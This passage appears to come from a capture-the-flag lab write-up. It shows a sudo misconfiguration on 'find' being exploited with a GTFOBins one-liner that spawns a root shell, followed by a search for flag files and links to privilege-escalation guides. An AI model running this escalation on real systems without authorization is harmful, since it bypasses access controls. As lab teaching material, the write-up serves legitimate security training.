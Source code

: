 The user Missy can run `find` binary with the sudo command, we can abuse this. referred to -> https://gtfobins.github.io/gtfobins/find/#sudo

```bash
[missy@ip-10-10-181-178 leonard]$ sudo find . -exec /bin/sh \; -quit
sh-4.2# whoami
root
sh-4.2# find / -name flag*.txt
/home/missy/Documents/flag1.txt
/home/rootflag/flag2.txt
```

## References:

- *https://payatu.com/blog/a-guide-to-linux-privilege-escalation/#5_Exploiting_Badly_Configured_Cron_Jobs*
- *https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/privilege-escalation/*
- *https://www.strongdm.com/blog/linux-privilege-escalation*

